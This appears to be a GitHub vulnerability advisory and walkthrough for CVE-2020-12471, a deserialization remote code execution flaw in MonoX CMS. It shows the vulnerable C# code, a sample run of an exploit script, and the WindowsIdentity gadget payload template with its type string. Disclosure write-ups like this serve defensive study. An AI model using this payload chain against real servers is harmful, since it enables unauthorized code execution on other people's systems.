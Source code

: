 # HTML5Upload and SilverLightUploadHandler - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadHandler`. The combined manipulation of the of the **ThumbnailSizeArgs** an **ThumbnailSizeType** parameters leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily found through a deep code analysis. The affected code block is the following one:

```csharp
if (base.Request.Form["ThumbnailSizeArgs"] != null && base.Request.Form["ThumbnailSizeType"] != null)
    {
        try
        {
            string @string = Encoding.UTF8.GetString(Convert.FromBase64String(base.Request.Form["ThumbnailSizeType"]));
            this.ThumbnailSize = (JsonSerializer.Deserialize(Convert.FromBase64String(base.Request.Form["ThumbnailSizeArgs"]), Type.GetType(@string)) as ThumbnailSizeEventArgs);
        }
        catch (Exception logMessage)
        {
            this.log.Error(logMessage);
        }
    }
```

As observable, the JsonSerializer is deserializaing directly the request parameter `ThumbnailSizeArgs`, without any prior validation of its content.

The `JsonSerializer` object is an instance of the custom MonoX class `MonoSoftware.Core.JsonSerializer`. Studing this class, it was possible to identify the actual implementation of the Deserialize function call:

```csharp
public static object Deserialize(Stream content, Type type)
    {
        DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(type);
        DataContractJsonSerializer dataContractJsonSerializer2;
        if (5 != 0) // Decompiled if
        {
            dataContractJsonSerializer2 = dataContractJsonSerializer;
        }
        return dataContractJsonSerializer2.ReadObject(content);
    }
```

From that, it was possible to ascertain that the deserialization routine was using `DataContractJsonSerializer`, taking `ThumbnailSizeArgs` as the seriliazed payload, and `ThumbnailSizeType` as the type to use for deserialization.

`DataContractJsonSerializer` is one of the .NET formatters that are basically secure, and usually free from deserialization issues, as it uses a strong object graph inspection, forbidding the deserialization of non-whitelisted objects. However, even `DataContractJsonSerializer` can be affected by insecure deserialization if the "Type" parameter passed to `Deserialize` is controllable by an external attacker, as this "Type" is automatically added to the whitelist. It may be obvious, but that was the case.

As no automatic payload generator was available in **ysoserial.net**, crafting the payload for this instance required a bit of manual interaction. After a bit of research, it was clear that `WindowsIdentity` was the right POP chain to use, as it supports `DataContractSerializer`, and because its payload is a "one level" XML.

```xml
<root type="System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <WindowsIdentity xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns="http://schemas.datacontract.org/2004/07/System.Security.Principal">
      <System.Security.ClaimsIdentity.actor i:type="x:string" xmlns="">
          {base64-encoded-payload}
      </System.Security.ClaimsIdentity.actor>
       </WindowsIdentity>
</root>
```
From the XML above, it was possible to identify all the needed information to craft the final exploit:

**Type**

```
System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

**Payload**

Transformed in JSON format, the payload was reduced to:

```json
{"System.Security.ClaimsIdentity.actor":"[base64-encoded-payload]"}
```

Upon deserialization, it was then possible to execute arbitrary code on the underlying Windows Hosting Server.  

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)